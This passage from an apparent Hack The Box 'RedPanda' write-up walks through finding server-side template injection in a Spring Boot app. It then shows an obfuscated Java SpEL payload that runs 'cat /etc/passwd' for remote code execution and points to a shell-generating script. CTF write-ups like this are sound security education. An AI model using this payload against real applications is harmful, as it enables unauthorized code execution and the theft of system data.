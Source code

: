 ### Fuzzing the web app

After trying several types of web-related payloads (SQL injection, HTML injection, xss, etc) and only finding out that some characters are banned ($ being the first example that I found), I finally got to a category that gave some results: Server-Side Template Injection (SSTI).  
I used the payloads from [this](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) hacktricks page and #{3\*3} (not their payload verbatim as they used 7\*7) returned data that indicates that our code is being interpreted.  

![SSTI - first result]({{site.baseurl}}/assets/img/HTB/redpanda/ssti_result1.png){: .center-image}

We notice that the output contains our result but it also contains some extra characters.  
I tried crafting more complex payloads but I wasn't always getting the results that I expected.  

At some point, I went back to the list of payloads used for detection and tried \*{4\*4}. 
![SSTI - second result]({{site.baseurl}}/assets/img/HTB/redpanda/ssti_result2.png){: .center-image}
This returned a clean output (only the result) and this could also be used with the more complex payloads that I tried.  
Maybe trying out all the payloads in that list first would've been a good idea.  

### Exploiting the SSTI

We also know this is a Java app (look at the title of the search page, you'll notice a 'Made with Spring Boot' string). This means that the templating engine that are most likely to be used here are Thymeleaf or Freemarker.  
Maybe we'll find out some specific attack vectors for those.  

By digging around, I found out [this repo](https://github.com/VikasVarshney/ssti-payload) on github that contains a script to generate SSTI payloads for Java apps.  
I used it to generate a payload that runs 'cat /etc/passwd', then I modified the output (it used $, which is banned for this app) and used the payload.

This is the generated payload (broken down for "readability").

{% highlight java %}
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime()
.exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97))
.concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32))
.concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101))
.concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99))
.concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112))
.concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115))
.concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119))
.concat(T(java.lang.Character).toString(100))).getInputStream())}
{% endhighlight%}

And this is the result.

![SSTI - leaking /etc/passwd]({{site.baseurl}}/assets/img/HTB/redpanda/leak_etc_passwd.png){: .center-image}

It works. We can execute code on that machine by using this.  

That git repo also had a [ssti-skel.py](https://github.com/VikasVarshney/ssti-payload/blob/master/ssti-skel.py) file that could be used to create a non-interactive shell.  
